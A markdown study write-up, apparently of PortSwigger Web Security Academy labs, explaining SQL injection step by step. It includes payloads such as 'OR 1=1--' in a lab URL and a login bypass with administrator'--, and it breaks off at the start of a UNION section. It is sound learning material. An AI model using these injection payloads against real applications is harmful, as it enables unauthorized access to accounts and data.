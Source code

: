 #Red 
## SQL Injection 1
### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

---
#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

---
#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.

---
### Example of Exploit
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```
- Explanation: Injects `Gift' OR 1=1--` into the `category` parameter, making the query always true and returning all products.

---

## SQL Injection 2

### Analysis
#### Original Query:
```sql
SELECT firstname FROM users WHERE username='admin' AND password='admin'
```
- **Description:** Retrieves the `firstname` of the user with `username='admin'` and `password='admin'`.

---
#### Injected Query 1:
```sql
SELECT firstname FROM users WHERE username='' AND password='admin'
```
- **Explanation:** Checks for a user with an empty username. Likely returns no results.

---
#### Injected Query 2:
```sql
SELECT firstname FROM users WHERE username='admin'--' AND password='admin'
```
- **Explanation:** The `--` sequence comments out the rest of the query, effectively checking only for `username='admin'`. Bypasses the password check.

---
#### Injected Query 3:
```sql
SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'
```
- **Explanation:** Similar to Injected Query 2 but uses 'administrator' as the username. If 'administrator' is valid, it bypasses the password check and returns the `firstname`

---
### Example of Exploit

- **Vulnerable URL:**
```
https://example.com/login?username=administrator'--&password=admin
```
- **Explanation:** The payload `administrator'--` in the username parameter bypasses the password check, returning the `firstname` of 'administrator'.

---

## SQL Injection 3
### Analysis
#### Background (Union):

### Table 1
| a | b |
|---|---|
| 1 | 2 |
| 3 | 4 |

### Table 2
| c   | d   |
| --- | --- |
| 2   | 3   |
| 4   | 5   |



#### Original Query:
